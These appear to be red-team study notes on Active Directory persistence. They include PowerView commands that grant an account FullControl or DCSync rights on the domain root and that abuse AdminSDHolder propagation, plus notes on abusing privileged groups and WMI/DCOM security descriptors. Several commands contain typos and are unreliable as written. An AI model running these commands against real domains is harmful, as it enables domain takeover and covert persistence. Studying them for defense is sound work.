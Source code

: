 #powershell
- With DA privs, the ACL of the domain root can be modified to provide usefull rights  like FullControl or the ability to run DCSync.
```powershell
# Give yourself Fullcontrol over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -Rights All -Verbose
# Give yourself DCSync rights over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -GUIDRight DCSync -Verbose
```
# AdminSDHolder
- A control that holds a blueprint of A  CLs for certain built-in privileged group called Protected Groups
- A Security Descriptor Propagator (SDPROP) runs every hour and overwrites the ACL from this container to all the member of the protected group.
### Protected Groups
- Account Operators
- Backup Operators
- Server Operators
- Print Operators
- Domain Admins
- Replicator
- Enterprise Admins
- Domain Controllers
- Read-only Domain Controllers
- Schema Admins
- Administrators
#### Well Known Groups for Abuse
- Account Operator - Cannot modify DA/EA/BA groups. Can modify nested groups within these groups
- Backup Operator - Backup GPO, edit or add SID of controlled account to a privileged group and restore
- Server Operators - Run a command as SYSTEM (using disabled browser service)
- Print Operator - copy ntds.dit backup, load device drivers
### AdminSDHolder Abuse
- If we can add our user to the AdminSDHolder object and give ourselves full control, the ACLs will propagate to all the protected objects and we will have full control over the protected objects.
```powershell
# Powerview module to add ACL to the AdminSDHolder group
Add-ObjectAcl -TargetADSPrefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountname student1 -Rights All -Verbose
# We can change all to be ResetPassword,WriteMembers
# Run SDPropagator
Invoke-SDPrpagator -timeoutMinutes 1 -showProgrss -Verbose
```
# Security Descriptors
- The SDDL (Security Descriptor Definition Language) defines the format used to descibe a security descriptor. SDDL uses ACE string for SACL and DACL.
```powershell
ace_type;ace_flag;rights;object_guid;inherit_object_guid;accountSID
```
- We can edit the security descriptor or the remote WMI and DCOM Object to provide ourselves full control over those object which can let us run WMI and DCOM remotely. This can be done by giving ourselves rights to connect to DCOM and rights to the namespace.
1. DCOM: Component Serivces -> My Computer ->Properties ->  COM Security -> Edit Links -> Add User
2. WMI: Computer Management -> WMI Control -> Properties -> Security -> Add User